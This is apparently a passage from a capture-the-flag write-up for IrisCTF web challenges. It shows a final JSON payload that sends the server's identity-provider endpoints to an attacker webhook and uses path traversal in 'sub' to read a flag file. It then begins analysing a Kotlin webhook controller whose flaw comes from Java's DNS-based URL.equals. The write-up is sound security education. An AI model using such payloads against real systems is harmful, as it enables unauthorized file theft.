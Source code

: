 ## Final Payload

```json
{"issuer":"https://webhook.site/2c0beb1c-d788-4bb4-829d-6625f44347f0","authorization_endpoint":"https://bad-todo-web.chal.irisc.tf/auth_redirect","token_endpoint":"https://webhook.site/2c0beb1c-d788-4bb4-829d-6625f44347f0","userinfo_endpoint":"https://webhook.site/2c0beb1c-d788-4bb4-829d-6625f44347f0","access_token":"lmao","token_type":"Bearer","sub":"..flag"}
```

By hosting this on our webhook and using that as our issuer URL when signing up, we can read the flag file.

`irisctf{per_tenant_databases_are_a_cool_concept_indeed}`

# web/webwebhookhook (16 Solves)
This was probably the most interesting challenge in my opinion. It took me some time and I went down a short rabbit hole of considering request smuggling vulnerabilities but it turns out the actual issue is in relation to Java's `URL.equals()` which apparently does a DNS-level comparison (see [here](https://news.ycombinator.com/item?id=21765788)).

## Analyzing the Source
```java
package tf.irisc.chal.webwebhookhook.controller

import org.springframework.http.MediaType
import org.springframework.stereotype.Controller
import org.springframework.ui.Model
import org.springframework.web.bind.annotation.*
import tf.irisc.chal.webwebhookhook.State
import tf.irisc.chal.webwebhookhook.StateType
import java.net.HttpURLConnection
import java.net.URI

@Controller
class MainController {

    @GetMapping("/")
    fun home(model: Model): String {
        return "home.html"
    }

    @PostMapping("/webhook")
    @ResponseBody
    fun webhook(@RequestParam("hook") hook_str: String, @RequestBody body: String, @RequestHeader("Content-Type") contentType: String, model: Model): String {
        var hook = URI.create(hook_str).toURL();
        for (h in State.arr) {
            if(h.hook == hook) {
                var newBody = h.template.replace("_DATA_", body);
                var conn = hook.openConnection() as? HttpURLConnection;
                if(conn === null) break;
                conn.requestMethod = "POST";
                conn.doOutput = true;
                conn.setFixedLengthStreamingMode(newBody.length);
                conn.setRequestProperty("Content-Type", contentType);
                conn.connect()
                conn.outputStream.use { os ->
                    os.write(newBody.toByteArray())
                }

                return h.response
            }
        }
```